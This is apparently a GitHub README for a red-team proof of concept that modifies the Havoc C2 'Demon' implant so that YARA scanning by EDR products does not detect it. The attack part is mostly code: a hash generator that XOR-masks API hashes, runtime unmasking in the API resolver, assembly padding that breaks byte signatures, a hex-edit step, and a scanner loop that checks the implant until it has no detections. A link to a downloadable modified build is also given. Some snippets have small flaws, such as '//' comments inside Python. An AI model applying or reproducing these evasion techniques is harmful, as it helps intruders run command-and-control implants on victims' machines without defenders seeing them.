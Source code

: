 # Havoc-C2-Modification-YARA-Free

# POC of modifying YARA signautre on [Havoc C2](https://github.com/HavocFramework/Havoc). 
This was during one of red team I had to modify open-source C2 to make YARA free, therefore it would be safer to execute in memory by a loader and evade 
common YARA scanning by EDRs. I was able to achieve 0% YARA detections. The main steps are the following:

1.Modify [hash_func.py](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/scripts/hash_func.py) to generate different hash values that are flagged by YARA rules

```js
import sys

def hash_string( string ):
    try:
        hash = 5381

        for x in string.upper():
            hash = (( hash << 5 ) + hash ) + ord(x)

            hash ^= 0xA5A5A5A5 // we are xoring the hash values with the key 

        return hash & 0xFFFFFFFF
    except:
        pass

def hash_coffapi( string ):
    try:
        hash = 5381

        for x in string:
            hash = (( hash << 5 ) + hash ) + ord(x)

        
            hash ^= 0xA5A5A5A5 // we are xoring the hash values with the key  


        return hash & 0xFFFFFFFF
    except:
        pass

if __name__ in '__main__':
    try:
        print('#define H_FUNC_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_string( sys.argv[ 1 ] ) ));
        print('#define H_COFFAPI_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_coffapi( sys.argv[ 1 ] ) ));
    except IndexError:
        print('usage: %s [string]' % sys.argv[0]);
```

2.Replace them in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
define XOR_KEY 0xA5A5A5A5


#define H_FUNC_LDRLOADDLL 0x3be0cfe6
#define H_FUNC_LDRGETPROCEDUREADDRESS 0x5942ce13
#define H_FUNC_NTADDBOOTENTRY 0x295962d3
#define H_FUNC_NTALLOCATEVIRTUALMEMORY 0x52261d49
#define H_FUNC_NTFREEVIRTUALMEMORY 0x8da763ac
#define H_FUNC_NTUNMAPVIEWOFSECTION 0xcf01b768
#define H_FUNC_NTWRITEVIRTUALMEMORY 0x66b2a437
#define H_FUNC_NTSETINFORMATIONVIRTUALMEMORY 0x31cf679c
#define H_FUNC_NTQUERYVIRTUALMEMORY 0xb5654df8
#define H_FUNC_NTOPENPROCESSTOKEN 0x90a86f3c
#define H_FUNC_NTOPENTHREADTOKEN 0x2596e277
```
3. Add the XOR logic in [Win32.c](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/src/core/Win32.c), the idea is to dynamicly XORing back to the orignal values of the API hash functions during run time, so YARA will not flag the hardcoded values in demon.bin defined in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
#define XOR_KEY 0xA5A5A5A5 // the key we used to xor the hash values


PVOID LdrFunctionAddr(
    IN PVOID Module,
    IN DWORD Hash
) {
    PIMAGE_NT_HEADERS       NtHeader         = { 0 };
    PIMAGE_EXPORT_DIRECTORY ExpDirectory     = { 0 };
    SIZE_T                  ExpDirectorySize = { 0 };
    PDWORD                  AddrOfFunctions  = { 0 };
    PDWORD                  AddrOfNames      = { 0 };
    PWORD                   AddrOfOrdinals   = { 0 };
    PVOID                   FunctionAddr     = { 0 };
    PCHAR                   FunctionName     = { 0 };
    ANSI_STRING             AnsiString       = { 0 };

    if ( ! Module || ! Hash )
        return NULL;

    NtHeader         = C_PTR( Module + ( ( PIMAGE_DOS_HEADER ) Module )->e_lfanew );
    ExpDirectory     = C_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].VirtualAddress );
    ExpDirectorySize = U_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].Size );

    AddrOfNames      = C_PTR( Module + ExpDirectory->AddressOfNames );
    AddrOfFunctions  = C_PTR( Module + ExpDirectory->AddressOfFunctions );
    AddrOfOrdinals   = C_PTR( Module + ExpDirectory->AddressOfNameOrdinals );

    if (IsPredefinedHash(Hash)) {
        Hash ^= XOR_KEY; // use the same key to xor back whenever the demon calls hashes APIs
    }

```

4. Modify the [Asm.s](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Shellcode/Source/Asm/x64/Asm.s) Assemby and add a dummy functions to break the ROP gadget logic to evade YARA detection 

`````js
; Define the dummy function
DummyFunction:
        ; Save registers (if needed)
        push    rax
        push    rbx
        push    rcx
        push    rdx

        ; Dummy operations
        nop     ; No operation
        nop     ; No operation
        nop     ; No operation

        ; Restore registers
        pop     rdx
        pop     rcx
        pop     rbx
        pop     rax

        ; Return from the dummy function
    ret

section .text$A
	Start:
        call    DummyFunction     // break the following calling logic    
        push    rsi               // <-----detection starts here
        nop                       
        mov		rsi, rsp
``````

5. Last step is to  manually remove using the [Hxd tool](https://mh-nexus.de/en/hxd/) to  change one hex value

    Step 4 and 5 refer the that [blog](https://karma-x.io/blog/post/18/) and the demo below

    Click [here](https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view) to check out demo for manually modifying the hex value


<video width="600" controls>
  <source src="https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view" type="video/mp4">
  Your browser does not support the video tag.
</video>



6. The whole modified havoc is here, you can download and compile your own to make modificatio and YARA check using a simple [python script](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Yara%20Scan%20Checker/yara_check.py) like the following with updated [yara rules](https://github.com/elastic/protections-artifacts), you can add [pe-sieve](https://github.com/hasherezade/pe-sieve) and [moneta](https://github.com/forrest-orr/moneta) in the script to check addtioanl memory region for the shellcode and modify it accordingly.


```js
import os
import sys
import subprocess


directory = ('C:\\Users\\User\\Downloads\\Mem_Scan\\protections-artifacts-main\\protections-artifacts-main\\yara\\rules')
target = 'C:\\Users\\User\\Desktop\\Payloads\\Products\\double_module_stomp\\PayloadLoader\\x64\\Release\\DllLoader.dll'

for fileanme in os.listdir(directory):
    filepath = os.path.join(directory, fileanme)

    if os.path.isfile(filepath):
        cmd = ['yara64.exe','-s', filepath, target]
        result = subprocess.run(cmd, capture_output=True, text=True)
        if result.stdout:
            with open('yara_loader_result.txt', 'a') as f:
                outout = f'Detected===>!!!\\n{filepath} ====>\n {result.stdout}'
                print(outout)

```

# DEMO 

You can also check out the demo for the final version of the cleaned shellcode YARA scan [here](https://drive.google.com/file/d/1vkOEhy7eR_kjewiJaoxkTosBVLG5HxkB/view?usp=sharing)



